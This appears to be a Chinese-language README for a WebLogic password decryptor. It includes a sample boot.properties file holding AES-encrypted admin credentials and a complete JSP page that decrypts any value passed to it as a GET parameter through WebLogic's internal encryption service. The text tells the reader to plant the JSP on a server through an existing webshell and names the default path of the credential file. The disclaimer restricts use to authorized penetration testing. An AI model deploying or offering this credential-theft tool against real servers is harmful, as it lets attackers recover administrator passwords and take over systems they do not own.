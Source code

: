 ## jsp在线解密weblogic，加强判断，get传参

`x.jsp?p=AES密码`

Example:

```
root@0ba3ae6d6212:~# cat ./Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties
# Generated by Configuration Wizard on Mon May 16 07:39:16 UTC 2016

username={AES}xdwPe62ds+jcPCQwwLn/VR3fI0e9ZGkFz96ZBqmvRpY=
password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=

root@0ba3ae6d6212:~# 
```

![](./decode.png)
```
<%@page pageEncoding="utf-8" %>
<%@page import="weblogic.security.internal.*,weblogic.security.internal.encryption.*" %>
<%
    EncryptionService es = null;
    ClearOrEncryptedService ces = null;
    String s = request.getParameter("p");
    es = SerializedSystemIni.getEncryptionService();
    if (es == null) {
        out.println("Unable to initialize encryption service");
        return;
    }
    ces = new ClearOrEncryptedService(es);
    if (s != null && s != ces.decrypt(s)) {
        out.println("[+] Data= " + s + "<br/>");
        out.println("[+] Decode_Data= " + ces.decrypt(s));
    } else {
        out.println("Decode Fail !");
    }
%>
```


# WebLogicPasswordDecryptorUi
weblogic解密JAVA UI版,欢迎提交BUG
![](20180313143338-76b76fb0-2688-1.png)



## WeblogicPassword 在线解密(转)

>  原文：https://xz.aliyun.com/t/2149

如有webshell可进行在线解密
把```weblogicdecryptor.jsp```放入服务器进行访问，s="" 中填写 weblogic 的加密密码，可在 boot.properties 文件中找到。默认路径为```../../../Server/security/boot.properties```

![](20180313143329-71963f48-2688-1.png)

## 法律
> 该项目仅供合法的渗透测试以及爱好者参考学习，请各位遵守《中华人民共和国网络安全法》以及相应地方的法律，禁止使用该项目进行违法操作，否则自行承担相关责任！
